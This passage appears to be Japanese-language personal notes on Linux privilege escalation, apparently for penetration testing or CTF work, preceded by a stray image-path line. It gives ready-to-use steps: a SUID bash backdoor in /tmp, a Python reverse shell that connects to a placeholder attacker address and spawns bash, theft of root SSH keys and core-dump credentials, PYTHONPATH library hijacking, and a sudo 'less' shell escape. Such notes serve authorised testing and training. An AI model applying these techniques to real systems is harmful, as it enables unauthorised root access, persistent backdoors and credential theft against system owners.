     ```bash
    # root権限で実行
    cp /bin/bash /tmp/kayu;chown root:root /tmp/kayu; chmod 4777 /tmp/kayu
    
    # 一般ユーザ権限で実行
    /tmp/kayu -p
    ```
    
- ディレクトリのrwx権限はあるが、当該ディレクトリ内のファイルのrwx権限がない場合、ファイルを編集するには以下の手順
    
    ```bash
    mv FILE .old
    cp .old /tmp/.old
    
    # /tmp/.oldを編集した後に実行
    cp /tmp/.old FILE
    ```
    
- pythonスクリプトファイル中で読み込まれているライブラリが書き込み可能な場合は以下のようなコードを追加してリバースシェルを構築
    
    ```bash
    import pty
    import socket
    import os
    
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("IP_ADDRESS",PORT))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    pty.spawn("/bin/bash")
    s.close()
    ```
    
- 何かしらの方法で `/root/.ssh` ディレクトリ内の秘密鍵を取得する
    
- コアダンプからクレデンシャル情報を取得できる可能性
    
- user奪取の段階で探したcredentialが必要なexploitが利用できる可能性
    
- `lxd` グループに所属している場合は[こちらの方法](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation.html?highlight=lxd#method-1)で権限昇格が可能(alpineの方が簡単かも)
    
- pythonスクリプトを実行する際、 `import` 文によるライブラリのインポートは `sys.path` に定義されたディレクトリから行うが、これに加えて環境変数 `PYTHONPATH` で定義されたディレクトリからも行う。この環境変数の値を任意のディレクトリに書き変えてroot権限で実行されるpythonスクリプト内(あるいはroot権限で実行される任意の言語のスクリプトファイル内で読み込まれるpythonスクリプト)の `import` で利用しているライブラリと同名のファイル・関数を作成して任意のスクリプトを実行可能。
    
- 任意のシェルスクリプトにおいて `sudo` で実行されているコマンドが存在し、当該シェルスクリプトを実行した際にパスワードの入力を求められない場合は、`/etc/sudoers` ファイルなどの設定により、当該コマンドについて(のみ)パスワードの入力が省略されている可能性があるので同じコマンドをターミナルから `sudo` で実行可能
    
- `sudo` 権限で実行したコマンドが `less` コマンドのようなページャーを内部で使用している場合、 `!/bin/bash` を入力することでroot権限を獲得可能
    